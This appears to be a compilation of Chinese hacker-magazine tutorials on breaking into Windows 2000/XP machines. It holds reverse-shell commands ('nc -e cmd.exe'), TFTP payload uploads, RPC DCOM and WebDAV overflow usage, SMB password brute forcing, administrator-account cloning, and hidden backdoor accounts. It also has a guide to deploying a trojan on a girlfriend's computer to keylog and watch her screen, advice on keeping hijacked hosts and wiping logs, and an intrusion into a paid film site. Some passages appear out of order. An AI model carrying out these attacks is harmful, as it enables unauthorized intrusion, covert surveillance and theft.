> 使用 Telnet 尝试对方任意一个没有开放的端口。10 秒以内有反应提示的，通常没有防火墙；30 秒后才有失败提示的，通常使用了防火墙（经验判断）。

第一判断对方可能装有防火墙。为证实这一判断，我使用 SuperScan 详细扫描对方开放端口（图3）。开放端口只有 80，看来判断很正确。


程序里的端口，这一点能说明管理员是在本地登录的。现在，只有等管理员发现 IIS 不能访问后来重启 IIS，等一会儿再看吧！

### 二、入侵

几个小时后，勤劳的管理员真的重启了 IIS，80 端口又能访问了。无意中想到 ASP 的扩展溢出漏洞，这个漏洞是通过 80 实现的，并且还能得到一个 Guest 的 Shell。靠它吧，先试试（图4）。


运气不错，他真的有这个漏洞，得到了一个 Guest 权限的 Shell。现在我们要想办法提权了，先上传一个 NC.EXE。很多人喜欢用 IPC$ 上传文件，但这种方法局限性大，我还是喜欢用 TFTP。在本机运行 TFTP32.EXE，建立一个 TFTP 服务器，在目标服务器上按这个格式输入命令（图5）：

```bash
TFTP -i 你的ip get nc.exe
```

> 注意：不要在 C 盘做这些动作。


不过现在似乎对他没有任何办法了。为什么？因为 80 被我溢出了啊！目标这时开放了 7788 端口等待连接，如果 7788 端口不关闭，IIS 就不会重启；IIS 不重启，80 端口则不能访问。

文件上传成功了！这时候再在你的机器上开一个端口，我们来进行一次反弹连接。虽然是 guest 权限的 shell，但在后面的用处很大着呢！反弹连接的命令是（图6）：

```bash
nc -e cmd.exe 你的IP 你监听的端口
```

图6

我这里用的端口是 99。OK！拿到了一个 guest 权限的 shell，最重要的是这个 shell 不再基于 ASP 的扩展漏洞了。接下来我们再来进行 Webdav 溢出……这时候在现场 nc 反弹连接过来的 shell 中，使用命令：

```bash
nc -vv 127.0.0.1 7788
```

为什么呢？当然是在本地连接 7788 这个溢出端口了（图7）。

图7

注意看图7右边的那个窗口，看到了吗？本地连接成功了。我们再来看看权限吧（图8）。

图8

一样的哦，System 的权限。再往后怎么做，大家都会了吧！……在停止 IIS 服务时，必须先退出 7788 端口的连接，因为 7788 是基于 IIS 的溢出，不断开与 7788 的连接是不能停掉 IIS 服务的。

这次溢出成功的关键在于先得到了一个 Guest 的 Shell，基于此才能进行本地连接……很多人说 Guest 用户是没有写权限的，其实这种说法不对！Guest 用户在 C 盘的某些目录确实不能写，但在其他盘是可以写的。

本文中用到的软件（SuperScan 和 NC.EXE）可在光盘中找到。

Win2k 是个多用户操作系统，管理员（administrator）可根据需要对各个用户进行不同的权限划分，以达到安全防御的作用。因此，了解 Win2k 的用户及用户管理机制，无论对安全防护还是入侵，都有一定的帮助。

## 常见名词

- 组（group）：用户、计算机、联系人和其他组的集合。
- 权限：对对象访问规则的定义。

权限：与对象关联的规则，用来规定能访问对象的用户及访问方式。可以是“只读”“可读可写”甚至“可删除”等，这些都可以通过权限进行设置。

> 注意：只有 NTFS 格式的分区才能进行权限设置，而且 Win9X 系统不支持 NTFS 分区。

用户和账户并非完全等同；在单机环境下差异不明显，放到域环境后差异会更明显。扫清了几个障碍，下面可以开始了！

## Win2k 的默认用户（组）以及默认权限

要查看 Win2k 的用户，依次打开“我的电脑→控制面板→管理工具→计算机管理”，在“本地用户和组”中查看本机用户。

### 默认用户

- administrator：系统默认创建的管理员账户，属于 administrators 组，拥有最高权限。
- guest：系统默认创建的 guest 账号，属于 guests 组……该账号是提供给浏览 Web 页面的客户所使用的。
- IWAM_MACHINENAME：也是由 IIS 创建的用户……属于 guests 组。
- TsInternetUser：又是一个 Win2k Pro 默认安装不会有的用户……安装了终端服务后由终端服务自动创建的用户，属于 guests 组。

### 默认权限

在最开始已经说过，只有在 NTFS 格式的磁盘上才有权限这个说法……从 FAT32 转换到 NTFS 格式的命令为：

`CONVERT volume /FS:NTFS`

例如将 C 盘转换为 NTFS 分区：

`CONVERT C: /FS:NTFS`

Win2k 的默认权限设置很简单，但也很危险……在这里就可看到默认的 NTFS 权限（图1）。

不难看出，默认权限是 everyone，并允许 full control（完全控制）……甚至匿名用户也包含在内。

> 很多朋友问过这样的问题：ipc$ 空连接对入侵到底有什么作用？这个问题的答案就在这里……

这里，如果对方有一个 NTFS 磁盘而且其权限并没有进行设置……我们只要建立一个空连接：

`net use \\ip\ipc$ "" /user:""`

然后再使用 UNC 路径访问对方磁盘，即可读写（取决于对方权限设置）。

好了，以上就是对两个默认值的简单介绍。刚刚开始，不要走开，广告之后，马上回来！

## Win2k 用户的管理

关于 Win2k 的用户管理机制……先说说用户在注册表中存放的位置：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`

组的位置：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Builtin\Aliases`

每次计算机启动时系统会自动读取这些信息，但默认情况下这两个位置访问不了（图2）。

这是因为权限设置造成的，我们只要修改一下权限即可。使用 regedt32.exe，打开 `HKEY_LOCAL_MACHINE` 下 SAM 项，会发现下面的一个 SAM 呈灰色（图3）。

选择“开始→运行”，输入 `regedt32`，定位到 SAM 项并调整权限。

这时，选中灰色的 SAM 项，依次打开“安全→权限”，选中 administrator 用户，会发现该项没有任何权限（图4）。

将 administrator 权限改为“完全控制”，返回注册表后即可访问该位置（图5）。

了解了注册表中存放用户的位置后，我们来学习如何用注册表删除用户。删除用户时，先来到这个位置：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`

在这里可看到所有用户名，选中想删除的用户（如用户 python），先不要急着删掉，先注意该用户名项下的默认键值的数据类型……再到 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users` 下查找对应尾号项并删除。

### 用户的 SID

Win2k 中对用户的识别是基于 SID 的。先说如何获得用户 SID：Resource Kit 中有 getsid 工具，也可用 whoami.exe，命令为 `whoami /user /sid`，结果会显示当前用户名和用户 SID。

1. 一个 SID 可用于标识该用户属于哪些组，SID 还可做更详细定位。
2. 系统中每个用户的 SID 均唯一，即使重建同名账户也不会与原账户权限完全一致（除非手工重设）。
3. 系统通过 SID 判断用户并分配权限。
4. 创建用户时不会给两个或更多用户分配相同 SID（特殊操作除外）。
5. 记住两个特殊 SID：administrator 尾数 500，guest 尾数 501。

### 和用户账户有关的 hack

大部分入侵者完成入侵后都会做后门。这里介绍几种常见的利用账号进行入侵的方法及相应防范措施。

#### 直接建立管理员账号

入侵完成后建立管理员账号以便后用，有人会取明显名称如“hacker”“hack”。针对这种后门，一个 `net user` 命令就可排查。

#### 获得 administrator 密码

常见方式：弱口令；或通过获取 SAM 并用 pwdump/LC4 等工具破解。防范重点是严格权限控制（尤其系统盘），加强管理员口令强度并及时补丁。

#### clone 账号

clone 账号的方法常见有以下两种：

### （1）利用注册表来克隆 administrator 密码

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\user_name]
@=hex(1f4):
```

将 `user_name` 改为要克隆的用户名并保存为 `copy_user.reg`，导入后可获得与 administrator 类似配置（包括密码相关效果）。可通过检查用户 SID 尾数是否异常（如多个 500）发现问题。

### （2）使用软件 clone 账号

常见 clone 软件如 CA。其克隆后 SID 不变，防范关键在于提升密码强度、及时修补系统漏洞、清理无用账号并常规审计账号与 SID。

账号被黑的常见情况大致如此。防御方式并不复杂：动作要快、权限最小化、口令与补丁策略到位。

## 国际反弹木马新星——木马风雪

小鱼儿

风雪是最近几个月才出现的一匹新木马，这个木马比冰河、黑洞、灰鸽子毫不逊色。从风雪身上可感觉到作者并不是一贯继发前人作品风格的人，而是有自己的想法。这些都可从风雪的一些功能中体会到。下面我就用一次详细入侵来教大家使用风雪木马。

在此我想说明一下，使用木马的目的不是叫大家去入侵更多的主机，笔者只是想让大家了解木马的特性，从而使自己学会如何防范和清除。我们一向认为家庭电脑的安全不是靠几个杀毒软件和防火墙就可解决的，个人的安全主要靠意识！

### 1 基本原理

风雪虽然也是一个反弹木马，但它的配置却比所有反弹端口木马简单得多，甚至比用域名做中转的反弹木马灰鸽子还要简单。因为它的反弹原理与众不同……只用找一台静态 IP 地址的机器，让它运行一个文件即可一劳永逸地建立一个中转机。

它和以往的反弹木马原理一样，都是通过一个“中转站”来搜集肉鸡 IP 地址……但风雪与其他反弹木马不同，它是采用直接连接“中转站”，并一次性获取在线肉鸡资料，使连接、刷新 IP 两步一次完成。

### 2 配置服务端

以上是木马风雪的基本原理，我讲出来主要是方便高层读者理解，给未来的木马编写者提供一个编写思路，普通读者只需了解即可。

首先把下载的风雪文件解压到一个文件夹里，里面有三个文件。其中 client.exe 是客户端，其他为说明文件。风雪的服务端是由客户端直接生成的，这样的设计避免了一些菜鸟误运行服务端而导致自己中了木马。

运行客户端 client.exe，会出现界面（图1）……先在“文件→服务端配置”，出现“风雪服务端配置向导”（图2）。

图1  
图2

默认选择为第一项，这是配置普通连接服务端的地方，我们可直接点“下一步”，进入配置界面2。默认端口密码都给你写好了，你可改成自己想要的端口和密码。右边有三个可选项，例如“自动关闭防火墙”“执行后自动删除”“执行后自动共享系统盘”等。

图3

再点“下一步”，出现完成界面（图4），到此服务端配置就完成了，很简单吧！

图4

这时风雪的目录中会多出一个文件 ipserver.exe，这就是我们刚配置好的服务端。若觉得配置麻烦，也可连续点击两次“下一步”和“完成”，使用默认配置；但建议最终修改连接密码，以防他人连接。

### 3 配置静态 IP 反弹

一般来说，风雪现在就可使用了，但上述配置只能用在普通连接上，这个木马的最闪亮之处“静态 IP 反弹”还没配置呢。接下来我们还要配置好“中转站”，也就是作者所说的“IP 通知服务器”。

重新回到主界面，还是点击刚才的“配置”，这时我们选择第三项（图5）。下一步还选配置端口和密码（注意：此处所填的端口一定要与刚才配置服务器时所填的端口一样）。

配置好后点“下一步”，弹出窗口下面有段提示：“基于静态 IP 反弹型的服务端”的端口要与“IP 通知服务器”的端口一致。作者放在这个界面说这句话未免有点晚了，如果前面恰好改了端口，现在还得返回“上一步”去改成一致。此处的静态 IP 地址填写你拥有的“中转站”地址……如图6。

再点击“下一步”完成，文件夹又会多一个文件——reserver.exe，这个文件就是给你的“IP 通知服务器”运行的。运行它后，一台普通静态 IP 主机就成了你用来搜集无数内网 IP 的“中转站”了。到此风雪的所有配置都完成。

在一台静态 IP 机器上运行了 reserver.exe，并在一台或多台任意机器上运行了 ipserver.exe 后，就可体验它的静态 IP 反弹功能了。在风雪主界面填写“IP 通知服务器”的地址和密码，点击连接，显示连接成功，并且出现磁盘列表（图7）。

再点击左上角的“文件→获取在线 IP”（图8），出现网机列表（图9）。“IP 地址”就是肉鸡的真实地址，“监听连接 IP”就是“IP 通知服务器”的地址，在你想要连接的内机名字上单击鼠标右键，点击“服务端连接”（图10），等待后即可连上要连的内机（图11），然后就可进行各项功能操作。

### 4 入侵实例

接下来，笔者以入侵女朋友的机器为例，来给大家说明风雪的各项功能是如何发挥作用的。

#### 1 控制命令

在她运行了我在 QQ 上传给她的服务端文件 ipserver.exe 后，便轻松连上了她的机器……选择“控制命令”中的“屏幕监视”，可看到对方当前在电脑上的一举一动。为了追踪观察，右键选择“连续抓屏”（图12）。

接下来让我们试试风雪其他功能。点击“进程管理”，能看到她电脑中目前所有的进程。哈！QQ 的进程赫然在目，用鼠标右键点击它，该不该删除这个进程呢？请大家帮我拿个主意（图13）。

“窗口管理”很简单，和进程差不多的使用方法。“发送信息”是个简单又有趣的功能，让我来逗逗她吧！选择按钮，填写信息并发送，远端会弹出一个警告小窗口（图15）。还有个“鼠标锁定”功能，即可给她的鼠标定住不能动。

#### 2 记录命令

“记录命令”是专用来窥人隐私和盗取密码等重要信息的，这里的记录命令分为详细和模糊。前者记录键盘每一次敲击，查看时较凌乱；模糊记录则依据关键字记录，较清晰有条理。开始记录后可随时查看记录文件，点击“查看记录”会跳出文本窗口（图16）。

#### 3 设备命令

“设备命令”一看就知道包括关机和重启。两项点击后还要再确认一次，这样可避免误操作；否则容易误关机（图17）。

#### 4 网络命令

“网络命令”中的“磁盘共享”设计得非常好用，直接填写共享名和目录路径即可。比如我要完全共享 F 盘，共享名为 trojans（图18）。

“打开网址”这个功能也挺不错，比如我要在她的电脑上打开 http://www.mmbest.com，就如图19这样写。点击 OK，MM 电脑上就出现了木马帝国的网站了（图20）。

实际上，这个功能我是这么用的，在网上看到什么有趣的新闻或消息，本来是要在 QQ 上发给她的，但她也不一定看，所以就用这个功能给她强行推送，呵呵！

#### 5 其他命令

“其他命令”中的“系统杂项”都是些捉弄人的玩意，不过都可恢复，大家可放心试验（图21）。

文件传输做得也不错，上传运行都很稳定……打开一个目录，点击右键，选择“上传文件”（图24），选择要上传的文件（图25）。上传完后需手动刷新（图26）才能看到上传文件（图27）。若要远程运行上传文件，在文件上单击右键选择“远程运行”即可（图28）。注意“远程隐藏执行”只对 DOS 程序和 BAT 批处理有效。

“DOS 批处理”相当于“开始”里的“运行”功能，可运行刚上传的文件（图29），也可输入 regedit，远程开启对方注册表（图30）。

“模拟键盘输入”是风雪的又一亮点，在我的记忆中，好像还是第一匹木马有这么全套的组合键管理功能……只需点击一次 Ctrl，再点一次 Shift，然后按功能键即可，如图31。

## 结语

现在大家觉得怎么样？木马风雪是不是也很厉害呢？……它的自我保护机制是异常坚强的，两个进程互相保护，一个进程每隔 0.5 秒检查另一个进程是否存在，不在就立刻启动。

其实，删除木马风雪的方法很简单，即用风雪来清除风雪，以毒攻毒……再点“连接→卸载”，删不掉的风雪就会被清理掉。风雪利用传统启动方式，在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\snow`，找到并删除该键值即可。

最后，大家别忘了到配套光盘中找到木马风雪。

最近新漏洞出现得很频繁，广大学生一族也要放暑假。相信在这个时间内，广大的“黑”迷们又要好好利用这个时间开始积累丰富的“肉鸡”资源了。但有很多朋友都感受到一个普遍存在的问题：找肉鸡很容易，但要想保护肉鸡则是难上加难。一方面要保证自己的肉鸡不被同行抢走，又要保证不被肉鸡的主人发现。相信这些问题也是一些初学者普遍关心的问题。本篇主要写的话题就是如何“呵护”自己的肉鸡。在没进入正题前，先回答小菜鸟的几个问题。

菜鸟问：我有许多肉鸡，但每次都不能用很长时间，不是被发现就是被别人抢走，为什么？

答：原因有很多，要看实际情况。比如你用 WebDAV 漏洞进入一台主机，他就成为你的肉鸡。可现在网上一些所谓的黑客活动特别频繁，你会利用 WebDAV 攻击，这些人也会，他进入主机改了你的后门密码，这个肉鸡就离你而去了。还有就是你入侵以后在肉鸡上存放过多的文件，而且没有把这些文件设置为“超级隐藏”，被主机管理员发现打上补丁，你的肉鸡也一样飞了。

菜菜鸟问：平时在 hacking 中要用到许多工具，我可以在肉鸡上把这些文件都隐藏起来吗？

答：当然可以，这些都是本文要讲述的问题。

以上只是简单回答了很多朋友关心的问题，废话少说，马上进入正题。

## 挑鸡

现在获取肉鸡的方法真是太多了。一般的朋友都比较关注 Win2k 的肉鸡。现在的服务器一般都用 Win2000 Server 来架设，这可为我们获取肉鸡提供了便利呀！Win2k 漏洞之多，这已是地球人都知道的事了。以前在《黑客X档案》中都有过这样的文章，我在这里就不再重复。这里主要说明的问题是如何在肉鸡中挑选出较好的“精品肉鸡”。所谓“精品肉鸡”，即肉鸡的硬件配置情况和肉鸡的速度。检查这些也非常容易，办法是：用鼠标右键点击肉鸡的“我的电脑”，选择“属性”。图1就是我一台肉鸡的硬件情况：

图1。

挑选肉鸡先看硬件好还不行，还有一个很关键的因素——速度。

一般我测试肉鸡速度的办法是找一个大的且下载快的网站，在肉鸡上下载一个较大的文件。看看他平均下载速度怎么样？图2是我肉鸡的下载速度：

图2

怎么样？我这个肉鸡是不是很酷？下载速度 800K 每秒，我以前还找到过下载速度 3M 每秒的肉鸡。如果你运气好，一定可找到一台自己满意的肉鸡。

如果你的肉鸡和现在我这台的配置和速度差不多，那这个肉鸡基本就属于极品了。平时大家在挑选肉鸡时基本就要挑这样的。

## 养鸡

找到好的肉鸡后先别着急使用，先帮肉鸡做好安全工作，这样以后用起来才安心。你可暂时把你自己当成是肉鸡的管理员，进入肉鸡第二步就是先克隆管理员帐号，这样做的好处就是不容易被管理员发现。一般我选择克隆 guest 这个用户。克隆办法有两种：

- 1. 手工克隆（虽然比较麻烦，但是对所有的 Win2k 主机都有效）
- 2. CA 克隆（CA 这个工具是榕哥的大作，用起来非常方便）

由于本篇属于菜鸟教程，所以强烈推荐用 CA 克隆。它的使用非常简单。如图3。

图3

一切 OK 就成功了。下面我给大家解释下。

第一步先把要克隆的用户名密码改成你想要的密码，这里我把 guest 这个用户名的密码改成 zihuan。在不知道肉鸡上 administrator 这个用户密码的情况下，可先建立一个 admin 组的用户再进行克隆。然后用 CA 直接执行：

```bash
ca \\127.0.0.1 administrator passswd guest password
```

（注：因为我已经把 CA 上传到了肉鸡上，所以可直接在 ca\\ 后加上肉鸡 IP，即 127.0.0.1）

看到一切 OK，就说明克隆成功了。克隆成功后，马上删除刚才建立的那个 zihuan 用户名，只剩下刚才克隆的这个 guest 用户名。

> 注意：克隆 guest 后原来被禁用的 guest 帐户已变成了激活状态。我们直接在“我的电脑”→“管理”→“本地用户和组”→“用户”里把 guest 设置成禁用状态。

图4

到了这里，相信有的朋友要问了：把 guest 禁用以后我们还能登陆吗？这个问题你可以放心，绝对是可以登陆的。凡克隆管理员所设用户无论处于激活状态还是禁用状态都可正常登陆，设置成禁止后才不会叫管理员发现。

克隆完后第1步该做的事情就是修改 3389 终端端口。修改它我认为目前最好用的工具就是 c3389.exe，使用非常简单，把 c3389.exe 上传到肉鸡上直接执行命令：`c3389 port`，就可修改肉鸡的终端端口。

> **注意**：修改 3389 端口后，主机要重新启动才会生效。以后登陆时写 `IP:port`，例如 `127.0.0.1:1000`。

修改终端端口后，就要删除默认的 ipc$ 和 admin$ 共享。这样做的好处是：可防止别人暴力破解你的肉鸡。文中介绍了工具 `delnetbios.bat`（批处理命令），主要功能是删除 Win2k 默认共享和关闭 139/445 端口，上传后在 DOS 下执行即可。

删除肉鸡所有共享后不要高兴太早，还要查看主机是否有漏洞未补。先看主机 SP 版本，文中示例为已打 SP3，并建议更新到 `W2K_SP4_x86_CN.exe`（微软下载地址）。

```text
http://download.microsoft.com/download/b/4/5/b4582e8d-3b9e-4fb6-a6fc-73b3e5657205/Q811493_W2K_SP4_X86_CN.exe
```

安装补丁也很简单，下载后双击安装并重启，基本这台肉鸡就属于你自己的了。

## 用鸡

看完以上内容后，你就有了自己的肉鸡，但很多朋友有了肉鸡后不知道干什么。一般有了较满意的肉鸡后都是开通 FTP，放上我的“兵器”、个人主页等。

一般情况下肉鸡的主页存放目录是：`C:\inetpub\wwwroot`。先建立一个文件夹，把所需东西全放进去。然后讲一种 DOS 命令：`Attrib`，用于修改文件属性，参数包括 `+R`（只读）、`+S`（系统）、`+H`（隐藏）。

仅把文件设为隐藏并不能根本解决问题，在 Win2k 的 3389 登陆下，其他用户仍可能看到。只有用 Attrib 设置为系统保护属性，才能更好隐藏文件。

图5

这样，`ca.exe` 就像变魔术一般消失了。若把整个目录都按此法隐藏，管理员更难发现。

```bash
Attrib -s -h ca.exe
```

恢复隐藏文件的方法很简单，也可在“控制面板→文件夹选项”中取消“隐藏受保护的操作系统文件”（见图6）。

图6

中间会出来一个警告，不理它，直接点“确定”就 OK 了。

> **注意**：用这种方法隐藏文件夹后不要放太多文件，如果硬盘占用较大，还是很容易被发现的。

#### 总结

- 1. 有时候由于肉鸡没开放 admin$ 和 ipc$，用 CA 克隆管理员会报错，建议学会手工克隆。
- 2. 如果还想知道肉鸡主人的密码，还可给肉鸡放上登陆木马，牛族有相关教程。
- 3. 如果进入肉鸡后发现其 SP 版本是 SP2 或更低，请用 Windows Update 下载并安装更新。
- 4. 进入肉鸡后一定要擦写日志文件，小心驶得万年船。

（文中用到的工具：CA 克隆、c3389.exe、delnetbios.bat。）

## 一次渗透电影网站的全过程

赵原

最近我家终于装上了 ADSL，告别了 56K 小猫在网上爬爬的日子。由于本人酷爱看电影，装上 ADSL 后当然少不了要看电影啦！可我家装的 ADSL 只是 512K，还是较慢……对于我这种穷人来说，只能望影兴叹了！经过一番“努力”，终于可免费看片。下面我就为大家讲解我的“努力”过程。

打开 www.google.com 搜索电影网站，随便找了一个进去。该站是收费站。简单看了页面后，发现其使用的像是常见程序，于是尝试后台地址、默认账号等；虽未直接进入后台，但发现会员多用手机注册（图1）。

- 1. 没办法做用户名的字典，因为手机号段实在太多。
- 2. 就算做了字典，破出了密码也没用，因为用户可能已过期。

所以，我决定不用暴力破解表单的办法。继续逛站后，找到试看片区，选了一个电影一看，速度还不错，很顺畅。该程序播放采用页面内嵌播放器方式，禁了右键，无法直接获得真实 URL 地址（图2）。

这可难不倒我，拿出法宝 Project URL Snooper（《黑客X档案》曾介绍）。该软件可嗅探流媒体真实播放地址。图3是截获到的播放信息。

找到了播放信息就好办多了，先拿他的主机开刀！调出 scanner3.0，对主机 1-65535 端口详细扫描，结果如下：

```text
135 端口开放（可尝试暴力破解 administrator 密码）
139 端口开放
445 端口开放（意义不明）
```

多说无益吧？554 端口开放，八成是 real server 端口。开放端口不少，说明该电影站 Web 与电影服务不在同一主机。前几天正好找到一个关于 real server 溢出的程序，今天拿出来试试（图4）。

不成功，看来只好暴力破解 administrator 密码了。这里可选 135 或 139 端口。由于 139 较快，我就选它，工具是 SMBCrack.exe。

```bash
SMBCrack <IP> <Username> <Password file> [Port]
```

我挂上自己做的字典开始破解，如图5。

原来主机密码很弱，居然是“movie”。我马上用命令进行连接（图6）：

```bash
net use \\202.xxx.xxx.xxx\ipc$ "movie" /user:"administrator"
```

唉……我反复试了多次都不可以。再扫描发现 139 端口虽开但连不上，psexec 也不行。心情很郁闷，正准备放弃时，想到该主机还开着 UDP 135 端口……

黑客站点上看过一个软件，好像能在 135 端口执行命令。我马上又去找了找，果然找到了这个软件——Remoxec.exe。作者对它的介绍是：“利用 Windows 管理规范接口（WMI）来连接远程主机，执行指定程序或系统命令，程序使用 TCP135 端口。有时，我们已有远程主机的管理权限，但是远程主机没有开放 SMB、Termservice、telnet 等可进行远程管理的服务，我们就没有办法了。有了这个小程序，就可解决这个问题了。”

眼前一亮，马上用 remoxec.exe 执行命令（图7）：

```bash
net stop telnet
```

返回图8所示的结果。

看到返回信息显示成功，真是太令人兴奋了！马上拿出 scanner3.0 扫描 23 端口，信息如图9。

哈哈，终于成功了！多亏了 Remoxec.exe。要不然真的不能将 hacking 进行到底。不过先别乐，马上 telnet 202.xxx.xxx.xxx，果然到了 shell（由于篇幅原因就不截图了），然后用 ftp 上传 3389.exe（远程开终端的小工具），执行命令：

```bash
3389.exe /r
```

远程主机就重新启动了。等他一上线，用远程桌面连接输入用户名、密码，进入了远程桌面（图10）。

本次渗透就这样结束，我达到了当初的目的，可以免费看电影啦！也可把他所有的电影打包下载（不过好像很慢哦）。

回顾这次渗透，其实也没什么技术性，主要给大家讲述的是我的思路，和使用的几个非常实用的工具。本篇的精华是 Remoxec.exe，这个软件非常实用。现在一般负责重点的网管都关闭了 139 或 445 端口，有了 Remoxec.exe，就可在 135 端口上执行命令了。本次渗透 Remoxec.exe 起到了决定性的作用。

有些暴力破解软件也可在 135 端口上破解出 administrator（比如锋哥的另外一个作品——WMICracker.exe，破解速度稍微比 SMBCrack.exe 慢点），由于篇幅原因，在此就不给大家介绍了，请大家自己去查阅相关资料。

> （本文中用到的以下软件光盘中有收录：Project URL Snooper、Scanner3.0、SMBCrack.exe、Remoxec.exe、3389.exe）

Zero 语：XP 似乎是一个牢不可破的神话，除非第3方程序问题，在网上还没有见人成功溢出过。就在前段时间，RPC 溢出漏洞的到来，彻底打破了 XP 不能被溢出的神话，这几天，关于 RPC 漏洞的溢出代码，牛人们又搞出了多种不同版本，并且还在进一步完善中。当自己第一次用其中一个版本溢出了一台中文 XP 的时候，心中确实激动不已。但是回过头来想想，XP 的个人用户还是比较多的，所以提醒大家，及时下载安装最新补丁，刻不容缓。

## 攻破 XP 神话

## Microsoft RPC 接口远程任意代码执行漏洞

雪莲蓬 Sagi

Internet 让国际国内相互间的交流得到充分发挥，本文就很好地体现了这一点。“RPC 接口远程任意代码可执行漏洞”是前些日子刚公布的一个漏洞，接下来短短两三天时间，国内溢出工具就出了4个版本，而且一个比一个完善，感谢那些写溢出代码的牛人们，正是因为牛人们的毫无保留，才让我们有机会尝鲜这个漏洞，不过却也苦了我们这些小编，我们是差不多 24 小时跟着这些代码在互动，出来一个，就编译一个，然后试验，成功后就写文章。

本篇文章很值得一提的是，Sagi 用其中一个版本溢出了 E 文版的 XP 系统；本文不值得一提的是，呆呆虫用其中一个版本溢出了土豆的中文 XP，结果是土豆屏幕上显示“关机倒计时”开始。接下来看到土豆灰头土脸地站起来：“是谁，是谁……”

下面简单介绍一下这4个不同版本的特性，它们的用法不尽相同：

- 第一版本：用固定模式编译代码的版本。
- 第二版本：用灵活的参数实现针对目标的版本。
- 第三版本：目前最新的针对 XP 溢出的版本。
- 第四版本：能溢出中文 XP 的版本。

新版本肯定还会继续完善，因为这个漏洞的利用价值很大。特别是能溢出 XP，可以说是打破了 XP 牢不可破的神话。废话少说，大家还是看文章吧！

### 一、漏洞描述

2003 年 7 月 14 日，微软公布 MS Windows 2000 RPC 接口远程任意代码可执行漏洞。Remote Procedure Call（RPC）调用是 Windows 使用的一个协议，提供进程间的交互通信，允许程序在远程机器上运行任意程序。RPC 在处理通过 TCP/IP 进行信息交换的过程中存在漏洞，问题在于不正确处理畸形消息所造成。此漏洞主要影响使用 RPC 的 DCOM 接口，监听 RPC 使用的接口，这个接口处理 DCOM 对象激活请求。

攻击者如果成功利用此漏洞，可系统用户权限执行任意代码。要利用这个漏洞，可发送畸形请求给远程服务器监听的特定 RPC 端口，如 135、139、445 等任何配置了 RPC 端口的机器。

#### 受影响范围

- Microsoft Windows NT 4.0
- Microsoft Windows NT 4.0 Terminal Services Edition
- Microsoft Windows 2000
- Microsoft Windows XP
- Microsoft Windows Server 2003

详细资料大家可到 http://microsoft.com/downloads/details.aspx?familyid=C8B8A846-F541-4C15-8C9F-220354449117&displaylang=en 查看。

7 月 24 日，FlashSky 在安全焦点公布了测试代码，为了测试该漏洞只好自己动手来编译了。

### 二、所需工具

### 3个自编译的漏洞工具

- RPC → 第一版本（因为需要根据不同的 IP 地址来改写代码，所以尤金提供的是源代码）
- W2kRpcex → 第二版本
- rpcdcom → 第三版本

### 3个辅助工具

- NC.EXE → 在本地监听端口使用；
- SuperScan → 扫描工具，确定对方开放 135 端口；
- WebDAVScan → 扫描工具。

### 三、第一版本 RPC.EXE

本工具默认测试端口为 135，由于我们只是测试漏洞，所以只需用大面积扫描 135 端口就行了。也许大家认为这个端口一般没有什么危险，所以开放的主机特别多（图1）。

由于该漏洞在多个操作系统版本中都存在，所以不用费力气去判别相应的操作系统，随便找台开放了 135 端口的主机来测试吧！在溢出目标以前，我们先用 NC 来监听本机 2300 端口（溢出成功后目标主机会反向连接到这个端口），打开一个 CMD 窗口，使用命令：

```bash
nc -l -p 2300
```

现在我们就开始溢出吧！RPC 的使用格式为：

```bash
RPC.EXE 目标IP
```

图1

下面再打开一个 CMD 窗口，然后执行（图2）：

图2

溢出完成后，不管是否成功都不会出现提示，除非不能连接到目标时会出现提示：“Connect failed.Error.XXX”（XXX 为数字，分别代表不同的错误）。

图3

接下来我们切换到 NC 监听的 CMD 窗口，如果不成功则继续处于监听状态。如果成功，你会发现已经得到远程主机的一个 SHELL 了。

## 你最喜欢的文章

且权限为 SYSTEM 权限（图3），所以该漏洞危害相当大。注意：这个版本我们只溢出成功了 Win2K。

### 编译文件的注意事项

- 1. 程序编译使用 VC++ 通过；
- 2. 代码“port1 == htons(2300)”处是定义反向连接端口的地方，这个端口也可修改成其他你没有使用的端口；
- 3. “cb=0xD20AA8C0;”是目标 IP 地址的代码，这个代码是用 16 进制表示的，并给出了十进制到十六进制的换算示例；
- 4. 我编译的这个溢出代码在 Win2K+SP3 上通过，其他操作系统我还没有测试。

该漏洞的潜力很大，等更完善的溢出代码出来，大家就有可能溢出 WinXP 和 Win2003 了。


开始进行溢出测试（图7）。

```  
C:\hack>w2krpcex.exe 192.168.0.234 192.168.0.22 2222 0
```


我选择的是 SP3，如执行成功不会有什么别的提示，如果看到了无法连接或连接错误的提示，建议你换一台再测试！有没有溢出成功，我们来看一下 NC 的监听就知道了。

```  
C:\hack>nc -l -p 2222
```

如图8所示，我们溢出成功了，得到了对方的 CMD SHELL。下面我们来看一下权限到底有多大！


FlashSky 公布的测试代码中，目标 IP 是固定的。另外用于本机上监听 CMD SHELL 端口也固定为 2300，要想测试的话，就必须修改源程序。好在我在网上又找到了 FlashSky 公布的其改进版本，下面就让我们来看看该程序的使用（图4）。

```  
C:\hack>w2krpcex
```


图4中说明了用法（usage），“targetip”为目标服务器的 IP，“localIP”为自己监听 CMD SHELL 的 IP，“LocalPort”为监听端口，“SPVersion”为 SP 的版本号，“0”是中文 Win2000+SP3，“1”是中文 Win2000+SP4，“2”是英文 WinXP+SP1，程序默认使用的连接端口为 135。

扫描我使用的仍然是 WebDAVScan，速度快呀（图5）！下面我们先在本机上使用 NC 建立一个监听，监听端口为 2222（图6）：

```  
C:\hack>nc -l -p 2222
```


```  
C:\WINNT\system32>net user tudou 2222 /add
C:\WINNT\system32>net localgroup administrators tudou /add
```

如图9所示，添加账号成功，我们得到了 Administrator 权限。


但在测试中也发现了一个问题，就是 SP 的版本选择。目前似乎并没有什么好方法来远程判断对方 Win2000 的 SP 版本信息。


另外，如果溢出时我们选择错了对方的 SP 版本，将会造成对方 135 端口的关闭，当然再对其进行溢出自然也就不会成功了（图10）。所以各位别泄气了哟！全靠运气了，目前暂时是这样的。

